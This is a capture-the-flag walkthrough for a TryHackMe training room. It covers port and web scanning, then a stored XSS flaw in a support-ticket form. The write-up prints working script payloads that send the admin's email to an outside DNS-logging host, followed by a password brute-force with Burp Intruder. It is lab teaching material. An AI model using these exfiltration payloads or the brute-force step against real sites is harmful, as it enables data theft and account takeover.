

# Walk through: That's the ticket


https://tryhackme.com/room/thatstheticket


IP: 10.10.28.159

## Nmap 

```bash
nmap -p- -v 10.10.28.159
```

```bash
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

## Nikto 

```bash
nikto -h 10.10.28.159
```

```bash
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.28.159
+ Target Hostname:    10.10.28.159
+ Target Port:        80
+ Start Time:         2021-06-09 20:45:01 (GMT1)
---------------------------------------------------------------------------
+ Server: nginx/1.14.0 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ OSVDB-3092: /login/: This might be interesting...
+ OSVDB-3092: /register/: This might be interesting...
+ 7889 requests: 0 error(s) and 5 item(s) reported on remote host
+ End Time:           2021-06-09 20:48:15 (GMT1) (194 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```


## Webpage


1. Click register to register up a new account 


2. After logging in we see the dashboard.


3. Cheking the webpage we see the message box is vunerable to XSS injection


```js
</textarea><script>alert(1)</script>
```

#Room hint from tryhackme page
```markdown
Hint: Our HTTP & DNS Logging tool on http://10.10.10.100 may come in useful!
```

## DNS time!

Using the found xss bug we can use this to make callbacks to our machine and from the hint we got earlier. 
http://10.10.10.100 This is a DNS service that logs dns calls for us. We can also use a site like this, http://pingb.in/

Knowing we can use xss lets try a call back to the dns service. 

```js
</textarea>
```

This gets the call back four times, 3 from us and once from the server (admin is looking)


Now lets try to get some data back!

I tried cookies for a while but realised we only needed the admins email (always keep in mind the scope and spec!)

New payload

```js
</textarea><script>var i = new Image(); i.src="//8ba7c46d7ea59d575b71ef3126651b6a.log.tryhackme.tech/?c="+document.getElementById('email').innerHTML; </script>
```

But this was not working, data was not coming back from the server.
After a little while, I decided to try a subdomain. 

```js
</textarea><script>var i = new Image(); i.src="//TEST.8ba7c46d7ea59d575b71ef3126651b6a.log.tryhackme.tech/?c="+document.getElementById('email').innerHTML; </script>
```

This came back! 



Now we can get the admins email address, but we will have to swap a few charaters to not break the url to the dns service (escaping chars like @.')

```js
</textarea><script>
var email = document.getElementById("email").innerText;
email = email.replace("@", "8")
email = email.replace(".", "0")
document.location = "http://"+ email +".8ba7c46d7ea59d575b71ef3126651b6a.log.tryhackme.tech"</script>
```
Press Create ticket and check the results on the service http://10.10.10.100


We see the admin email and ours!

Now we can brute force the login page for the admins password as we have the email now.

Using Burp suite's intruder module we can select the password and then feed in a list of passwords on the payload's tab


After a short while we get a hit. 


And the final flag! 


# Credits 

I hope you enjoyed this box as much as me.

Thanks to Adam for the box and good lessons! 


